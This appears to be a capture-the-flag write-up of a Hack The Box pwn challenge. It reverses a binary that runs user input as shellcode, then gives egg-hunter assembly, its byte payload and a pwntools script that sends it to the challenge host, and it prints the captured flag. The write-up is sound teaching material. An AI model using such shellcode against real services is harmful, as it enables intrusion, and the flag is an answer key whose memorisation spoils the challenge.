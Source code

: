 ```yaml
---
author: "lilith"
title: "HTB Hunting Writeup"
date: "2022-12-06"
description: "Hunting in the lower realms"
tags:
  - writeup
  - pwn
---
```


![](images/htb-hunting/description.png)

### Analyzing the binary

![](images/htb-hunting/analyze.png)
The binary haults for the input and crashes as we pass something.
![](images/htb-hunting/strings-output.png)
Upon reading the stings we found a string which looks like a dummy file. Time to look for it in IDA pro.

### IDA
> i changed some of the variable names for better understanding

I jumped to the variable to see where it was being used and after reading the code we see that that string was being moved from one location to another.
![](images/htb-hunting/img1.png)
It first sets a new location and copies the flag to that location then empty's flag value from the previous location.
![](images/htb-hunting/img2.png)
It also creates an exit signal and triggers it with a timer of 10 seconds. Which means that program will exit after 10 seconds.
![](images/htb-hunting/img3.png)
> I am literally reversing it from down to top

Before the singnal code, it calls a function which returns a randomly generated number.
![](images/htb-hunting/img4.png)
Further reading the code we now know that it generates a number from a range of `0x5FFFFFFF` < i <= `0xF7000000`
which is a randomly generated address.
Then it takes to a buffer size of `60` and executes it as a shellcode. (reason why the segfault)

So overall the program moves the flag to a random address location, kills the program after 10 seconds, reads our input and executes it as a shellcode.

> NOTE: Since the buffer size is limited. We have to be very creative and minimal while crafting our payload.

### Planning our exploit

Since the program kills itself after 10 seconds we will set up a timer with much higher value. Then we will traverse through addresses from a range of `0x5FFFFFFF`searching for the flag and send it to stdout if it matches.

```asm
section .text

global _start

_start:
  ; Set a timer to send a SIGALRM signal after 120 seconds.
  push 120
  pop ebx
  mov al, 0x1b
  int 0x80

  ; Set the starting address for the search.
  mov edi, 0x7b425448 ; "{BTH"
  mov edx, 0x5fffffff

next_page:
  ; Set the last byte address on the page.
  or dx, 0xfff

  ; Move to the next page.
  add edx, 4096

next_address:
  ; Move to the next address on the page.
  inc edx

  ; Check if the current address is valid.
  push edx
  xor ecx, ecx
  mov al, 0x21
  int 0x80
  pop edx

  ; If the address is not valid, go to the next page.
  cmp al, 0xf2
  jz next_page

  ; Check if the value at the current address is the flag.
  cmp dword [edx], edi

  ; If the value matches, then stdout
  jnz next_address
  mov ecx, edx
  push 36
  pop edx
  push 1
  pop ebx
  mov al, 0x4
  int 0x80

  ; Exit the program.
  xor eax, eax
  ret
```

### Pwn Time

First we craft our payload into bytecodes and send it through pwntools
![](images/htb-hunting/img7.png)

```py
from pwn import *

payload = b"\x6a\x3c\x5b\x6a\x1b\x58\xcd\x80\xbf\x48\x54\x42\x7b\xba\xff\xff\xff\x5f\x66\x81\xca\xff\x0f\x42\x60\x31\xc9\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xeb\x39\x3a\x75\xec\x89\xd1\x6a\x24\x5a\x6a\x01\x5b\xb0\x04\xcd\x80"

#r = process("./hunting")
r = remote("134.209.22.121", 31067)
r.send(payload)

f = r.recv()
print(f)

r.close()
```
![](images/htb-hunting/img8.png)

Flag: `HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}`